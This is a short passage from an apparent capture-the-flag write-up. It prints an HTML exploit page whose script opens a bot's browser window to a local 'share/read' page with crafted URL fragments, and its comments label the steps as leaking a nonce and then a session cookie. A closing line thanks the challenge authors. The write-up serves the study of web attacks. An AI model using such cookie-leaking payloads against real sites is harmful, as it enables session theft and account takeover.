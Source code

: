 `index.html`:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    
    <script>
        const sleep = (milliseconds) => new Promise(resolve => setTimeout(resolve, milliseconds));
        async function run(){
            bot_window = window.open("http://localhost/share/read#id=1&username={{USERNAME}}"); // Exploit 1, leak nonce
            await sleep(7000);

            bot_window.location.href = "http://localhost/share/read#id=2&username={{USERNAME}}"; // Exploit 2, leak cookie
            await sleep(100);
            console.log("O");
        }
        run();
    </script>
</body>
</html>
```

At the end, it was a fun challenge to solve ❤️ Thanks to the authors for the challenge and for the CTF in general.
